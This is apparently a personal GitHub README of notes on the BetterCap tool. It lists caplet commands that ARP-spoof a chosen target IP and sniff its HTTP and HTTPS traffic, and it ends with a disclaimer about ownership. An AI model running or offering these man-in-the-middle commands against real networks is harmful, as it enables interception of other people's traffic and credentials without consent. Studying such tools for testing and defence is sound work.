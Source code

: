 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />
</p>

## To start with the program

<p align="center">
  bettercap iface <b>name_of_interface</b>
</p>

## spoof.cap - http://

net.probe on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

## spoof.cap - https://

net.probe on
</br>net.recon on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>set net.sniff.local true
</br>net.sniff on

## bettercap caplet

Copy the commands from <b>spoof.cap</b>, then edit it with the <b>target_IP</b> and save it in some directory with name "<i><b>spoof.cap</b></i>". Now, move to the particular directory and run the command below:
<p align="center"></br>bettercap -iface <b>name_of_interface</b> -caplet spoof.cap</p>

## Decleration

<p align="center">
  <i>I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.</i>
</p>
